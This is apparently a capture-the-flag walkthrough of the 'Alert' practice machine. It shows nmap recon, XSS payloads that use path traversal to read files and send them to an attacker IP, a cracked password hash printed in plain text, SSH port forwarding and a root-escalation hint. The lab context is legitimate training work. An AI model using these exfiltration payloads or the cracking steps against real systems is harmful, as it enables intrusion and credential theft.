








## Box Info

| Name                  | Alert            | 
| :-------------------- | ---------------: |
| Release Date          | 21 Dec, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |


Identify if machine is active


### Reconnaissance

```java
sudo nmap -sCV -p 22,80 10.10.11.44 -oN targeted
```

```java
# Nmap 7.95 scan initiated Tue Mar  4 14:58:26 2025 as: /usr/lib/nmap/nmap -sCV -p 22,80 -oN targeted 10.10.11.44
Nmap scan report for 10.10.11.44 (10.10.11.44)
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  4 14:58:36 2025 -- 1 IP address (1 host up) scanned in 9.77 seconds
```

```bash
echo "10.10.11.44 alert.htb" | sudo tee -a /etc/hosts
```


### Local File Read

https://fluidattacks.com/advisories/noisestorm/

```bash
<script>
fetch("http://alert.htb/messages.php")
.then(response => response.text())
.then(data => {
    fetch("http://10.10.15.36:7000/?data=" + encodeURIComponent(data));
})
</script>
```

vulnerability

```bash
<script>
fetch("http://alert.htb/messages.php?file=../../../../etc/apache2/sites-available/000-default.conf")
.then(response => response.text())
.then(data => {
    fetch("http://10.10.15.36:7000/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Error fetching the messages:", error));
</script>

```









(<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>)

```bash
hashcat -m 1600 hash  /usr/share/wordlists/rockyou.txt --username -o pass.txt
```

```bash
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```

```bash
emily@alert.htb	$839
jonathan@alert.htb	$829
robert@alert.htb	$819
raquel@alert.htb	$809
mario@alert.htb	$799
amayrani@alert.htb	$789
axel@alert.htb	$759
sofia@alert.htb	$749
john@alert.htb	$739
mary@alert.htb
```

```bash
netstat -nltp
```



```bash
ssh -L 9090:localhost:8080 albert@10.10.11.44
```



path of website monitor `/opt/website-monitor/`

if can edit the file configuration.php on path of website-monitor can run command as root
can chek this with command `ps aux`




